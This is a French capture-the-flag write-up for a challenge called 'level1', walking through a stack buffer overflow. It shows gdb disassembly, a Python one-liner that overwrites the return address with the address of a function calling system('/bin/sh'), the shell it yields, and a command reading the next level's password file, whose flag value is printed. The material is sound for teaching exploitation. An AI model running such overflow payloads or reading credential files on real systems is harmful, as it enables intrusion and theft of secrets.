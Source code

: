 # Level 1

Quand je lance le programme `level1` je peux voir qu'il lit sur l'entrée standard, il doit donc être possible de faire un [*buffer overflow*](https://en.wikipedia.org/wiki/Buffer_overflow).  
Je peux tester si le programme `segfault` en écrivant une longue suite de caractères :
```sh
~ ./level1
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault (core dumped)
```

Pour déterminer la longueur du buffer, je lance `gdb`. Le buffer est de `0x50` (soit `80` en décimal) comme on peut le voir à l'instruction `<+6>` du main :
```shell
~ gdb level1
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret
End of assembler dump.
```

En exécutant la commande `info function` dans `gdb`, on remarque qu'il y a un appel à [`system`](https://linux.die.net/man/3/system) qui se fait dans une fonction `run` :
```shell
(gdb) info function
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
[...]
0x08048444  run
0x08048480  main
[...]
(gdb) disas run
Dump of assembler code for function run:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>
   0x0804847e <+58>:	leave
   0x0804847f <+59>:	ret
End of assembler dump.
(gdb) x/s 0x8048584
0x8048584:	 "/bin/sh"
```

L'argument que prend `system` est `/bin/sh`. Notre objectif est donc d'appeler `run` à la place d'un `shellcode` en utilisant son adresse `0x08048444`. Il faut d'abord convertir cette adresse en format [*little endian*](https://en.wikipedia.org/wiki/Endianness), soit `\x44\x84\x04\x08`.  
Notre exploit utilisera la technique du [*stack smashing*](https://insecure.org/stf/smashstack.html) (voir aussi [cet article](https://www.exploit-db.com/papers/24085)).
    - Dans une architecture x86 32 bits, le registre `eip` contient l'[*instruction pointer*](https://en.wikipedia.org/wiki/Program_counter), càd l'adresse mémoire de la prochaine commande à exécuter.
    - Concrétement, on va ici écrire au delà de la mémoire tampon pour écraser la valeur du registre `eip` et y placer l'adresse de la fonction `run`
    - Pour cela, nous utiliserons un padding de 76 caractères, puisque les 4 derniers caractères de la chaîne contiendront l'adresse que nous allons écrire dans le registre `eip`.

```shell
~ python -c 'print "A"*76+"\x44\x84\x04\x08"' > /tmp/run
~ cat /tmp/run - | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```